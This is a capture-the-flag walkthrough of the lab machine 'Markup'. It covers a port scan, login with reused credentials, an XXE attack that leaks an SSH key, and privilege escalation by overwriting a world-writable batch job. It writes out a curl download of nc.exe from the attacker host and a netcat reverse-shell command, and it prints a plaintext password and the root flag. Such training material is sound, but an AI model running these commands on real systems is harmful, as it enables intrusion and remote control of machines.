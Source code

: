# Starting Point - Markup

## Enumeration

```
rustscan 10.10.10.49 -- -sC -sV -o port_scan

PORT    STATE SERVICE REASON
22/tcp  open  ssh     syn-ack
80/tcp  open  http    syn-ack
443/tcp open  https   syn-ack
```

### Examine Port 80 - Apache Server

![](pics/login.png)

When accessing the open port 80 via a browser, we can see a login page. In the previous machine (Included), we found the credentials `Daniel:>SNDv*2wzLWf` stored in a SQL dump. Using them, we can successfully login and we are redirected to the application's website, which seems to be some kind of online store / delivery service.
![](pics/delivery.png)

The website provides several functionalities, one of which is for submitting orders. 

![](pics/order.png)

When submitting an order (with test data), and intercepting the request with Burpsuite, we can see that the content is XML.

![](pics/burp-order.png)

There is a good chance of an XXE (XML External Entity) vulnerability. This attack may lead to the disclosure of confidential data, denial of service, server side request forgery, port scanning from the perspective of the machine where the parser is located, and other system impacts.

Let's try it:

![](pics/xxe_proof.png)

Perfect! It works.

Now what can we do? We know that there is an open SSH port. And we also know that `Daniel` is a valid user. Maybe we can leak the private SSH key and use it to connect to the server.

![](pics/ssh_key_leak.png)

Using this key as the identitfier for the ssh connection we get access to the machine!

```
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.

daniel@MARKUP C:\Users\daniel>whoami
markup\daniel
```

## Exploitation

Enumerating the system, reveals a script named `job.bat` which is located in the `C:\Log-Management` directory:

```
daniel@MARKUP C:\Log-Management>type job.bat
@echo off
FOR /F "tokens=1,2*" %%V IN ('bcdedit') DO SET adminTest=%%V
IF (%adminTest%)==(Access) goto noAdmin
for /F "tokens=*" %%G in ('wevtutil.exe el') DO (call :do_clear "%%G")
echo.
echo Event Logs have been cleared!
goto theEnd
:do_clear
wevtutil.exe cl %1
goto :eof
:noAdmin
echo You must run this script as an Administrator!
:theEnd
exit
```

Looking at the permissions, we see that the group `BUILTIN\Users` has full control (F) over the file. This also includes our current user daniel.

```
daniel@MARKUP C:\Log-Management>icacls job.bat
job.bat BUILTIN\Users:(F)
        NT AUTHORITY\SYSTEM:(I)(F)
        BUILTIN\Administrators:(I)(F)
        BUILTIN\Users:(I)(RX)
```

The idea is to replace the current code with a reverse shell, which will then be executed by an administrator (similar to cron jobs on unix). But therefore, we first must upload the nc.exe so that we can establish a reverse shell.

```
curl http://10.10.14.15/nc.exe -o c:\users\daniel\nc.exe

echo C:\Users\daniel\nc.exe -e cmd.exe 10.10.14.15 4444 > C:\Log-Management\job.bat
```

Now we wait and eventually receive a root-shell:

![](pics/rootshell.png)

Final step is to obtain the root flag: `f574a3e7650cebd8c39784299cb570f8`
